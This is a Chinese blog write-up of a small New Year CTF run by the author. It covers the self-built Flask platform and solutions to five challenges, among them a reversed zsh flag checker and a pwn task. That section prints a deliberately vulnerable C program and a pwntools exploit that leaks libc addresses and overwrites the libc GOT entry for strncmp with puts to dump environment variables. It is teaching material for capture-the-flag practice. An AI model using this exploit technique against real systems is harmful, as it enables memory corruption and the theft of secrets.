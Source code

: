 ```yaml
---
title: 2025 新年火箭杯
date: 2025/02/13 14:29:00
updated: 2025/02/13 18:45:00
tags:
    - challenge author
    - got-hijack
    - libc-hook
    - multi-directions
thumbnail: /assets/trueblog/newyear2025/banner.png
excerpt: 去年除夕就搞了“第一届火箭杯”，今年新一届来了！奖金加码到300元，题目增加一题，还搭建了专用平台（虽然没什么人做）。一起来看看平台搭建和题目详解吧
---
```


去年整了4题，在qq上分发，总共发了200。今年赚了点米，奖金加到了300元，还专门开设了新平台，
由于难度有所上浮，大家做的积极性并不高，不过至少每个方向都有人出。

{% note green fa-arrow-up-right-from-square %}
现在就可以访问: https://newyear.rocketma.dev
{% endnote %}

## 手搓平台

既然是如此小型的比赛，自不必使用ctfd等大型平台。为了顺便了解一点前端的知识，
我自己用Flask手搓了一个平台。在使用qwen2.5生成一段起始html后，我就开始自己探索，
完成了剩下网页的构建。我总共花了2天时间来手搓，不得不说，相比以前，有了llm后，
ai写参考代码方便了很多。

{% note blue fa-warehouse %}
webui现已开源: https://github.com/RocketMaDev/RocketCup2025WebUI
{% endnote %}

边学边写，我自学了一部分css和js，对于弹窗，采用了js动态注入的方式，同时界面做了一定程度的美化，
看起来应该是比较现代化的。虽然比不过ret2shell等大型平台，但是对于过年小比赛，flag固定的情况来说，
差不多是够用了。REST API部分全部采用GET，基本上遍历了所有情况，不会出什么bug。

最后部署，使用`gunicorn`来分发flask服务，搭建在本机上，通过nginx做反向代理，
绑定到机器的443端口。1Panel确实好用，通过web前端可以很方便地设置let's encrypt的证书，
查看web日志，设置防火墙规则什么的。

{% note yellow fa-circle-exclamation %}
`torus`是 **MyFonts** 上的专有字体，虽然osu中有用到，但是我没有版权来分发，
因此仓库中没有包含。
{% endnote %}

## 题解

所有的附件可以在[平台仓库的Releases](https://github.com/RocketMaDev/RocketCup2025WebUI/releases/tag/release)
中找到
### 你的第一个红包！

> NWERFnen0es4yEYA{3cEcd1Es}

看起来像是栅栏编码，一把梭

![fence](/assets/trueblog/newyear2025/fence.png)

{% note default fa-flag %}
`NEWYEAR{F3nceEnc0de1sE4sy}`
{% endnote %}

### find $(pwd)

> 下载图片，看看我是从哪里拍的？（不是在拍哪）  
> flag提交格式：`NEWYEAR{str(sha256(f"{经度:.2f},{纬度:.2f}"))[:18]}`

{% folding grey::照片 %}
![](/assets/trueblog/newyear2025/img.jpg)
{% endfolding %}

这张照片拍的是西湖旁边的八卦田，将照片对着地图摆一摆可以推测出我是从其西北处的山上拍的，
在山坡上取一个方便拍照的地，坐标大约是`120.14,30.21`，因此计算其sha256得到flag。

<img src="/assets/trueblog/newyear2025/position.png" height="70%" width="70%">

{% note default fa-flag %}
`NEWYEAR{2b699aff46606103b4}`
{% endnote %}

### unpacker

> 真有这么多数据交换格式？  
> 找出压缩包中1234文件分别对应的格式，从其中文维基百科页面提取url的最后一个字段，
> 并用空格拼接起来，sha256后得到flag。  
> 例如：1234分别对应w x y z，w的维基url是https://zh.wikipedia.org/wiki/W ，那么取W。
> w x y z最后得到W X Y Z，使用`sha256(['W', 'X', 'Y', 'Z'].join(' '))[:18]`包上
> `newyear{}`后得到flag。

没啥好说的，就是认格式。从1到4分别是avro, bson, msgpack, protobuf。
计算`sha256('Apache_Avro BSON MessagePack Protocol_Buffers')`

{% note default fa-flag %}
`NEWYEAR{459794aa79b251ddd8}`
{% endnote %}

### crackZsh

> 去年是bash脚本逆向，今年zsh脚本卷土重来！

为了方便调试，可以把`verify`中用来处理异常的大括号去掉，然后在发生错误时，
把return码修改方便trace，这样就可以很方便地定位验证进度。
以下是还原后的脚本与配套的解释，可以看出渐进式验证flag的过程。

其中`typeset -A arr`的作用是将其类型设为哈希表。其他的zsh特性可以查阅
[zshguide](https://github.com/goreliu/zshguide)。

```zsh restored.zsh
#!/bin/zsh

print Input your flag to get your red envelop!
read FLAG

verify() {
    typeset -A arr
    FLAG=$1
    # 限定flag长度和起始、末尾
    if [[ $#FLAG -ne 27 ]] || [[ $FLAG[1,8] != "NEWYEAR{" ]] || [[ $FLAG[-1] != "}" ]] {
        return 1
    }
    # NEWYEAR{xxxxxxxxxxxxxxxxxx}
    # date的第6个词是2025，因此第一个字符为2
    tmp=$FLAG[9]
    param=$(printf '{print $%d}' $(($tmp+4)))
    if [[ $(LC_ALL=C date | awk $param) != "2025" ]] {
        return 2
    }
    # NEWYEAR{2xxxxxxxxxxxxxxxxx}
    # 读入当前脚本的内容到buf中，寻找第9字符处的2个字符，即sh
    buf=$(<$2)
    if [[ $buf[(i)$FLAG[10,11]] -ne 9 ]] {
        return 3
    }
    # NEWYEAR{2shxxxxxxxxxxxxxxx}
    # 第12字符处为3
    if [[ $FLAG[$((10 + $tmp))] -ne $(($tmp + 1)) ]] {
        return 4
    }
    # NEWYEAR{2sh3xxxxxxxxxxxxxx}
    # 查表得原始字符串为"Ll"，由于有"C"，因此原先可能是ll，由md5sum可以验证
    arr=(L o r e m I p s u m A l i q o a V e l i t x)
    buf=${(C)${FLAG[13,14]}}
    if [[ "$arr[$buf[1]]$arr[$buf[2]]" != "oi" ]] || [[ $(print $FLAG[13,14] | md5sum | cut -c -5) != "243c4" ]] {
        return 5
    }
    # NEWYEAR{2sh3llxxxxxxxxxxxx}
    # 第15字符处的码位为95，即_
    if [[ $(python -c "print(ord('$FLAG[15]'))") -ne 95 ]] {
        return 6
    }
    # NEWYEAR{2sh3ll_xxxxxxxxxxx}
    # (?? << 2) - 289 == 95，推断出原来是96
    buf=$(($FLAG[16,17] << $tmp))
    if [[ $(python -c "print(chr($buf - 289))") != $FLAG[15] ]] {
        return 7
    }
    # NEWYEAR{2sh3ll_96xxxxxxxxx}
    # 从"96"处截断后，第3 4字符和"96"等同
    buf=$FLAG[16,17]
    tmp=${FLAG#*$buf}
    if [[ $tmp[3,4] != $buf ]] {
        return 8
    }
    # NEWYEAR{2sh3ll_96xx96xxxxx}
    # hex(96 + 96) => 16#C0，取3 4字符小写为c0
    buf=$(([#16] $(($FLAG[16,17] + $FLAG[20,21]))))
    tmp=${buf:l}
    if [[ $tmp[4,5] != $FLAG[18,19] ]] {
        return 9
    }
    # NEWYEAR{2sh3ll_96c096xxxxx}
    # 将22 23字符视为次数，重复向buf附加3个字符，根据buf长度穷举爆破，推得buf长度为45，即这两个字符为15
    buf=
    repeat $FLAG[22,23] {
        buf+=$FLAG[24,26]
    }
    if [[ $(print $#buf | sha256sum | cut -c -5) != "42000" ]] {
        return 10
    }
    # NEWYEAR{2sh3ll_96c09615xxx}
    # 将buf中所有da替换为ad，要求前6个字符为_dca__，在变换前就是d_c_a_，因为字符按3个一组是不断重复的，因此这6个字符就是dacdac
    buf=${buf//da/ad}
    if [[ $buf[2,4] != "dca" ]] {
        return 11
    }
    # NEWYEAR{2sh3ll_96c09615dac}
    return 0
}

verify $FLAG $0
err=$?
if [[ $err -eq 0 ]] {
    print Flag verified, congratulations!
} else {
    print Incorrect flag: $err
}
```

{% note green fa-heart %}
本题只有 *mantle* 做出，太强了！
{% endnote %}

{% note default fa-flag %}
`NEWYEAR{2sh3ll_96c09615dac}`
{% endnote %}

### put?env!

> Flag放在环境变量里，但是要被覆写了😨  
> 沙箱中除了read和write以外的系统调用，都只是为了让程序不似，不是用来利用的  
> libc是2.35-0ubuntu3.8_amd64  
> nc newyear.rocketma.dev 1337

{% folding purple::题目源码 %}
```c putenv.c
#include <stdlib.h>
#include <stdbool.h>
#include <stdio.h>
#include <seccomp.h>

void sandbox(void) {
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    if (!ctx)
        goto kill;
    int rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fstat), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lseek), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(newfstatat), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_load(ctx);
    if (rc < 0)
        goto kill;
    return;
kill:
    exit(-1);
}

int main(void) {
    setbuf(stdout, NULL);
    unsigned long arr[3] = {0x2025, 0x6666, 0x8888};
    puts("Happy 2025!");
    puts("You got one chance to set value");
    long recv = 0;
    bool done = false;
    sandbox();
    do {
        puts("Which to set?");
        printf("IDX > ");
        int err = scanf("%ld", &recv);
        while (getchar() != '\n');
        if (!err)
            continue;
        if (recv >= 3)
            puts("No way!!");
        else {
            printf("Is this what you want? %#lx\n", arr[recv]);
            printf("[Y/n] ");
            int ch = getchar();
            if (ch == '\n' || (getchar(), ch == 'y'))
                done = true;
        }
    } while (!done);
    done = false;
    do {
        puts("Tell me what you want");
        printf("VAL > ");
        int err = scanf("%ld", arr + recv);
        if (!err) {
            while (getchar() != '\n');
            continue;
        }
        done = true;
    } while (!done);
    puts("Now the FLAG is gone!");
    setenv("FLAG", "", 1);
    return 0;
}
```
{% endfolding %}

保护全开，64位。由于libc是2.35，因此got表可写。这道题的出题思路其实来源于今年强网杯，
看狼组的wp时发现有非预期可以读环境变量。查看源码可知，`setenv`调用`__add_to_environ`，
而在`__add_to_environ`中，有一个遍历所有环境变量的地方：

```c stdlib/setenv.c
  ep = __environ;

  size = 0;
  if (ep != NULL)
    {
      for (; *ep != NULL; ++ep)
        if (!strncmp (*ep, name, namelen) && (*ep)[namelen] == '=')
          break;
        else
          ++size;
    }
```

在这个地方不难看出所有环境变量都会经历一遍`strncmp`，并且第一个参数恰好是环境变量字符串。
不难想到，如果把`strncmp`的got绑定到`puts`，就可以泄露所有环境变量。由于`puts`
的返回值是打印的字符数，因此不会出现进入&&分支。

因为我禁用了几乎所有系统调用，并且只能写一个QWORD，所以大概没有什么非预期，
直到 *山西小嫦娥* 来向我反馈。

{% note green fa-heart %}
感谢 *山西小嫦娥* 的反馈！
{% endnote %}

由于指针是无符号数，而输入时`recv`需要乘以8才会与指针相加，因此完全可以通过控制输入，
使得`recv * 8`为大于3的正数，从而实现环境变量区的任意读。于是我加了以下这一条patch
来使得这个trick也不能通过检查。

```diff fix-wrap-arround.patch
--- putenv.c
+++ putenv.c
@@ -56,3 +56,3 @@
             continue;
-        if (recv >= 3)
+        if (recv >= 3 || arr + recv > arr + 3)
             puts("No way!!");
```

{% note blue fa-face-sad-tear %}
然而，我在重新编译程序后，确实更新了xinetd服务的二进制，却忘记更新web服务分发的二进制。
也就是说，修补后网页上分发的程序和实际跑的程序并不是同一个，并且相关的偏移也变了，
因此写出“正确”的脚本也有可能打不通，向大家道歉。
{% endnote %}

最后，解题思路就是从栈上获取libc基址和栈基址，计算得到`libc.got['strncmp']`的位置，
利用唯一的一次修改，将其改为`puts`，这样在`setenv`时就会打印出所有flag。exp：

```python putenv.py
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './putenv'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('newyear.rocketma.dev', 1337)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

    def select(idx: int, goon: bool) -> int:
        assert idx < 3
        sh.sendlineafter(b'IDX', str(idx).encode())
        sh.recvuntil(b'want?')
        key = int(sh.recvline(), 16)
        sh.sendlineafter(b'Y/n', b'n' if goon else b'y')
        return key

    libcBase = select(-15, True) - libc.symbols['_IO_2_1_stdout_']
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))
    libc.address = libcBase

    arrayBase = select(-6, True) + 8
    success(GOLD_TEXT(f"Leak arrayBase: {arrayBase:#x}"))

    select((libc.got['strncmp'] - arrayBase) // 8, False)
    sh.sendlineafter(b'VAL', str(libc.symbols['puts']).encode())

    sh.recvuntil(b'NEWYEAR{')
    flag = b'NEWYEAR{' + sh.recvuntil(b'}')
    success(f"Flag is: {flag.decode('utf-8')}")
    sh.close()
```

{% note default fa-flag %}
![](/assets/trueblog/newyear2025/flag.png)
{% endnote %}

## 参考

[Zsh 开发指南](https://github.com/goreliu/zshguide)
